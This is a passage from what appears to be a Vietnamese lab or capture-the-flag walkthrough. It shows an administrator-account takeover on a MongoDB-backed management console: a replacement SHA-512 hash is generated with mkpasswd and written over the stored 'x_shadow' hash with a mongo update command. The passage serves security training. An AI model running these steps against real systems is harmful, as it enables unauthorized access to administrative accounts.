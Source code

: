 Output cho thấy một người dùng có tên là Administrator. Hash password của họ nằm trong biến `x_shadow` nhưng trong trường hợp này, nó không thể bị bẻ khóa bằng bất kỳ tiện ích bẻ khóa mật khẩu nào. Thay vào đó, có thể thay đổi hash password `x_shadow` bằng băm khác để thay thế mật khẩu của quản trị viên và xác thực với bảng điều khiển quản trị. Để thực hiện việc này, có thể sử dụng tiện ích command line `mkpasswd`.

```
mkpasswd -m sha-512 Password1234

$6$sbnjIZBtmRds.L/E$fEKZhosqeHykiVWT1IBGju43WdVdDauv5RsvIPifi32CC2TTNU8kHOd2ToaW8fIX7XXM8P5Z8j4NB1gJGTONl1
```

`$6$` là mã định danh cho thuật toán băm đang được sử dụng, trong trường hợp này là SHA-512, do đó tạo một hàm băm cùng loại.

```
SHA-512, hay Secure Hash Algorithm 512, là một thuật toán băm được sử dụng để chuyển đổi văn bản có độ dài bất kỳ thành một chuỗi có kích thước cố định. Mỗi đầu ra tạo ra một độ dài SHA-512 là 512 bit (64 byte). Thuật toán này thường được sử dụng để băm địa chỉ email, băm mật khẩu...
```

Sau khi tạo xong hàm băm SHA-512, output sẽ trông tương tự như output ở trên, tuy nhiên do sử dụng salt nên hàm băm sẽ thay đổi mỗi lần tạo.

```
Salt được thêm vào quá trình băm để tăng tính duy nhất, tăng độ phức tạp mà không làm tăng yêu cầu của người dùng và giảm thiểu các cuộc tấn công mật khẩu như bảng băm.
```

Tiến hành thay thế mã băm hiện có bằng mã băm đã tạo.

```
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'
```

![alt text](image-18.png)

Xác minh rằng mật khẩu đã được cập nhật trong cơ sở dữ liệu Mongo bằng cách chạy cùng lệnh như trên. Có vẻ như băm SHA-512 đã được cập nhật.

```
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

Bây giờ truy cập trang web và đăng nhập với tư cách là `administrator`. Điều rất quan trọng cần lưu ý là tên người dùng phải phân biệt chữ hoa chữ thường.
